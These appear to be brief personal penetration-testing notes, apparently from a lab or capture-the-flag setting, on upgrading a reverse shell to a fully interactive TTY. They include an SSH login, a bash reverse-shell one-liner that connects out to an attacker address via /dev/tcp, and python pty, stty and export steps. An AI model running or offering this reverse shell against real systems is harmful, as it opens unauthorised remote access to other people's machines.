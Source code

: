 - dump shell > Fully interactive TTY shell
    - when SSH is impossible, very important 

- all inputs from Kali > send to host
    - = same with target host 

```
ssh groot@172.31.152.242

sh -i >& /dev/tcp/10.8.0.129/9001 0>&1

python3 -c 'import pty;pty.spawn("/bin/bash")' : pty shell
ctrl+Z : process background
-
stty raw -echo;fg
reset 
- host
export SHELL=bash : what shell I'm using is bash
export TERM=xterm-256color : what terminal I'm using is xterm-256color for color 
```


